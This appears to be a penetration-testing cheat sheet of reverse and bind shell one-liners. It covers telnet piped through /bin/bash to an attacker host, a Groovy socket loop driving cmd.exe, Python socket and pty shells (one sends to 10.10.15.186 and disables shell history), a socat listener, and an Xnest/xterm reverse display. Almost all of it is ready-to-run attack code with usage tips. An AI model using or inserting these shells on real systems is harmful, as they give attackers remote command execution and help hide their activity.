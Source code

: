 # Reverse/Bind Shells

### Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### Groovy

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

This was sourced from a gist user [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

### Python

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sometimes however, you may need to use an alternate protocol with python, and while the above is a good one-liner it's a bit difficult to work with.  I'd recommend using pty, and an excellent source for pty-webshells is [https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells).

```py
import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.15.186\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

These shells can't be captured with netcat however, you'll have to use socat

```bash
socat file:`tty`,echo=0,raw udp-listen:1234
```

### Xterm

For this you'll need xnest installed and a remote xterm client available.  You can set up the listener on your own listener server using one of the following two commands:

```
Xnest :3 -ac -once -query localhost
Xnest :3 -listen tcp
```

This opens a listener on port 6003, but you can choose any alternative to `:3`

The access control list on your server also needs to be amended to allow access from your machine.

```
xhost +<remote ip>
```

On the remote machine you can then run:

```
xterm -display <server ip>:3
```

From this you'll receive a reverse shell.

